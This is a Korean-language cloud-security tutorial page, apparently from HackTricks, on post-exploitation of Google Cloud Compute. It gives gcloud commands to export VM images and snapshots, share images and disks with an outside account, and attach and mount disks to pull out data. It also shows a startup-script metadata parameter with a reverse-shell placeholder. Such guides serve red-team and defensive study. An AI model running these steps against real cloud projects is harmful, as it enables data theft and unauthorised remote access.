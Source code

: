 # GCP - Compute Post Exploitation

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## 컴퓨트

컴퓨트 및 VPC (네트워킹)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 이미지 내보내기 및 로컬에서 검사하기

이를 통해 공격자는 이미 존재하는 이미지 내에 포함된 데이터에 **접근**하거나 **실행 중인 가상 머신의 새 이미지를 생성**하고 실행 중인 가상 머신에 대한 액세스 없이 데이터에 접근할 수 있습니다.

가상 머신 이미지를 버킷으로 내보내고, 해당 이미지를 다운로드하여 로컬에서 마운트할 수 있습니다. 명령어는 다음과 같습니다:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

이 작업을 수행하기 위해서는 공격자는 저장 버킷에 대한 권한과 확실히 **cloudbuild에 대한 권한**이 필요합니다. 왜냐하면 이 서비스가 내보내기 작업을 수행하기 위해 요청될 것이기 때문입니다. 또한, 이 작업이 작동하려면 codebuild SA와 compute SA가 특권 권한을 갖고 있어야 합니다. cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com`은 다음과 같은 권한이 필요합니다:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

그리고 SA `<project-id>-compute@developer.gserviceaccount.com`은 다음과 같은 권한이 필요합니다:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 스냅샷 및 디스크 내보내기 및 검사

스냅샷과 디스크를 직접 내보낼 수는 없지만, 스냅샷을 디스크로 변환하고, 디스크를 이미지로 변환한 다음, **이전 섹션**을 따라 해당 이미지를 로컬에서 검사할 수 있습니다.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 이미지 검사를 통한 가상 머신 생성

공격자가 이미지를 생성한 위치에서 **이미지에 저장된 데이터** 또는 **실행 중인 가상 머신**에 저장된 데이터에 접근하는 것을 목표로 할 때, 외부 계정에 이미지에 대한 액세스 권한을 부여할 수 있습니다:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

그리고 그것으로부터 새로운 VM을 생성하세요:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

만약 이미지에 대한 외부 계정 액세스를 제공할 수 없다면, 피해자의 프로젝트에서 해당 이미지를 사용하여 가상 머신을 시작하고 메타데이터를 실행하여 역쉘에 액세스할 수 있습니다. 이를 위해 다음과 같은 매개변수를 추가하세요:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### 스냅샷/디스크 검사를 위해 VM에 연결하기

디스크나 스냅샷에 저장된 데이터에 접근하기 위해, 스냅샷을 디스크로 변환하거나 디스크를 이미지로 변환한 후 이전 단계를 따를 수 있습니다.

또는 외부 계정에 디스크에 대한 액세스 권한을 부여할 수 있습니다 (시작점이 스냅샷인 경우 스냅샷에 대한 액세스 권한을 부여하거나 스냅샷에서 디스크를 생성합니다):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**인스턴스에 디스크를 연결**합니다:

```bash
gcloud compute instances attach-disk INSTANCE_NAME --disk DISK_NAME --zone ZONE
```

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

VM 내에서 디스크를 마운트합니다:

1. **VM에 SSH로 접속**합니다:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```

2. **디스크 식별**: VM 내부에 들어가면 디스크 장치를 나열하여 새로운 디스크를 식별합니다. 일반적으로 `/dev/sdb`, `/dev/sdc` 등으로 찾을 수 있습니다.
3. **디스크 포맷 및 마운트** (새로운 또는 원시 디스크인 경우):

* 마운트 포인트를 생성합니다:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```

* 디스크를 마운트합니다:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

스냅샷 또는 디스크에 외부 프로젝트에 액세스 권한을 부여할 수 없는 경우, 스냅샷/디스크와 동일한 프로젝트의 인스턴스 내에서 이 작업을 수행해야 할 수도 있습니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 상품**](https://peass.creator-spring.com)을 구매하세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud** github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
